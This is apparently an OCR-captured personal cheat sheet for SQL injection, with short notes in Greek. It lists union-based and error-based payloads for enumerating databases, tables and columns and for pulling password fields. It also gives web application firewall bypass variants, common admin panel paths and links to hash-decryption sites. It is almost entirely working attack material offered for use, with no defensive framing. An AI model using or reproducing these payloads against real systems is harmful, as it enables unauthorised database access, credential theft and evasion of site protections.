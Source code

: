 Union/Normal

Order by x #
- union select x,x1 #
@@version,version()
concat(database()),group_concat(database())
group_concat(table_name,0x0a)
from information_schema.tables where table_schema=database() #
http://www.swingnote.com/tools/texttohex.php
group_concat(x(something else), 0x3a,x1(pass),0x0a) from x #


// string based

Το ίδιο με το αποπάνω αλλά χρησιμοποιούμε ' στην αρχή
και στο τέλος +.


// Error based

or 1 group by concat_ws(0x3a,version(),floor(rand(0)*2)) having min(0) or 1 #
//
and (select 1 from (select count(*),concat((select(select concat(cast(database() as char),0x7e))
from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x
from information_schema.tables group by x)a)
//
and (select 1 from (select count(*),concat((select(select concat(cast(table_name as char),0x7e))
from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x
from information_schema.tables group by x)a)
//
and (select 1 from (select count(*),concat((select(select concat(cast(column_name as char),0x7e))
from information_schema.columns where table_name=0x... limit 0,1),floor(rand(0)*2))x
from information_schema.tables group by x)a)
//
and (select 1 from (select+count(*),concat((select(select concat(cast(concat(column_name,0x7e,column_name) as char),0x7e))
from table_name limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

Αν το παραπάνω δίνει error:
"Subquery returns more than 1 row" η κάτι διαφορέτικο πρέπει να χρησιμοποιήσω
το παρακάτω.

and (select 1 from (select count(*),concat((select(select concat(cast(concat(substring(Column_name,1,1)) as char),0x7e))
from table_name limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

// Waf Bypass

/*!union*/ select
UNIunionON SELselectECT
uni>on sel>ect
union selECT
/*!union*/ /*selECT*/


Admin Panels :
/admin/
/admin.html
:2082/
/admin.php
/login.php
/login.html

Decrypters/Encrypters:
https://gchq.github.io/CyberChef/
https://md5decrypt.net/en/
